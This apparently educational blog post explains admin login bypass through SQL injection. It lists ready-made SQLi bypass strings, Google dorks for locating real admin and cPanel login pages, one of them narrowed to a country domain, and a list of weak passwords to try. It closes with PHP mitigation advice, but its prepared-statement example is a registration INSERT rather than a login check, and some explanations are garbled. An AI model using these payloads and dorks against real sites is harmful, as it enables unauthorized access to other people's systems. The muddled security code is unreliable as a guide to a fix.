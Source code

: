 ```yaml
---
title: Mitigating Admin Login Bypass in Web Security
publishDate: '2024-07-02T08:06:27.420Z'
description: 'Understanding and Mitigating Admin Login Bypass in Web Security.'
tags: [Web Security, Authentication, SQLi, Cybersecurity, Bypass]
heroImage: {src: './image.png',color: '#d1edfe'}
language: 'en'
---
```

Before exploring the complexities of bypassing admin login mechanisms, it’s crucial to understand what “Admin Login Bypass” actually involves. This technique enables unauthorized access to the admin login page of a website, bypassing standard authentication procedures. This exposure can potentially allow malicious entities to access and modify admin pages, highlighting significant vulnerabilities.

## The Importance of Robust Admin Login Security

The significance of secure admin logins cannot be overstated. Websites with weak authentication systems are prime targets for hackers. It is imperative for website owners to strengthen their admin logins to prevent unauthorized access, thereby protecting sensitive data and maintaining site integrity.

## Connection to SQL Injection

Admin login bypass is closely associated with SQL Injection — a common security vulnerability that allows attackers to impersonate an admin through malformed SQL queries. For example, using a username and password combination like “admin” or “1=1” manipulates the SQL query, granting access without further exploitation.

## Commonly Used SQL Queries for Bypass

In the realm of unauthorized access, certain SQL queries are notoriously used to bypass admin logins. Some of these include:

*   `admin' #`
*   `admin' or '1' = '1`
*   `admin' or '1' = '1' #`
*   `admin 'or 1 = 1 or' '='`
*   `'or 1 = 1 limit 1 -- -+`
*   `' or '1' = '1`
*   `' or 'x' = 'x`
*   `' or 0 = 0 -`
*   `'or 0 = 0 #`
*   `' or 1 = 1 --`
*   `'or' one '=' one`
*   `'or 1 = 1 -- -'or'`

## Using DORKs and Payloads for Bypassing Admin Logins

To ethically test these vulnerabilities in controlled environments, here are some Google DORKs and payloads used to find and exploit weak login systems:

**DORKs:**

*   `inurl:/admin/login.php site:il`
*   `inurl:/admin/login.php "administrator"`
*   `inurl:/cpanel/login.php`
*   `inurl:/cpanel/admin.php`
*   `inurl:/cpanel/`

**Payloads for Auth/Author Bypass:**

*   `' or 1=1 limit 1 -- -+`
*   `'="or'`
*   `admin`
*   `pass`
*   `pass123`
*   `1234`
*   `administrator`
*   `passwd`

## Mitigating the Bypass Vulnerability

To mitigate such vulnerabilities, enhancing script security in login systems is critical. A practical approach includes refining the PHP login script to employ more secure practices:

**Original Code:**
```php
$username = $_POST["username"];  
$password = $_POST["password"];
```
**Revised Code:**
```php
$username = mysqli_real_escape_string($conn, $_POST["username"]);  
$password = mysqli_real_escape_string($conn, $_POST["password"]);
```
Incorporating functions like `mysqli_real_escape_string` helps prevent SQL injection by escaping special characters in input strings, thus securing the login process against such exploits.

## Beyond Simple Escaping: Strengthening Security with Advanced Techniques

While `mysqli_real_escape_string` is beneficial, employing prepared statements offers a more robust defense against SQL Injection. Prepared statements handle all escaping automatically and can improve performance with repeated query executions.

**Example with Prepared Statements using MySQLi:**

```php
// Create database connection  
$conn = new mysqli($servername, $username, $password, $dbname);  
  
// Check connection  
if ($conn->connect_error) {  
    die("Connection failed: " . $conn->connect_error);  
}  
  
// Retrieve data from POST  
$username = $_POST["username"];  
$hashedPassword = password_hash($_POST["password"], PASSWORD_DEFAULT);  
  
// Prepare SQL statement  
$stmt = $conn->prepare("INSERT INTO users (username, password) VALUES (?, ?)");  
  
// Bind parameters to the statement  
$stmt->bind_param("ss", $username, $hashedPassword);  
  
// Execute statement  
$stmt->execute();  
  
// Close statement and connection  
$stmt->close();  
$conn->close();
```
This example demonstrates the security enhancements achieved by using prepared statements and hashing passwords, providing robust protection against SQL injection and securing user passwords effectively.

## Conclusion

In conclusion, the security of admin login systems is paramount. By understanding the methods used for bypasses and employing more secure coding practices, web administrators can significantly reduce vulnerabilities and enhance the security posture of their sites.

vulnerabilities and enhance the security posture of their sites.

* * *

**Thanks to**: Ketapang Cyber Team
